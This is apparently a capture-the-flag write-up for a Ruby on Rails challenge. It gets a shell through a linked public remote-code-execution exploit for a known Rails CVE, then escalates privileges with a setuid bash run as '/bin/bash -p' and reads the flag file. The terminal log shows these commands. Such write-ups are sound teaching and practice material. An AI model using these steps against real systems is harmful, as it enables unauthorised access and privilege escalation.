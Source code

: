 # Web 03
Ruby on Rails challenge.
There's a known CVE that we use to gain shell (https://github.com/mpgn/Rails-doubletap-RCE).<br>

After getting a shell we see that the flag is owned by root.
The bash on system is has suid bit set that allows us to get root shell.
By default bash drops privileges unless explicitly asked not to.
```
bash-4.4$ /bin/bash -p 
/bin/bash -p 
bash-4.4$ id
id
uid=999(trex) gid=999(trex) euid=998(sauropod) egid=998(sauropod) groups=998(sauropod)
bash-4.4$ cat /flag.txt
cat /flag.txt
WhiteHat{do_not_push_secret_keys_in_rails}
bash-4.4$ 
```
## Flag
`WhiteHat{do_not_push_secret_keys_in_rails}`
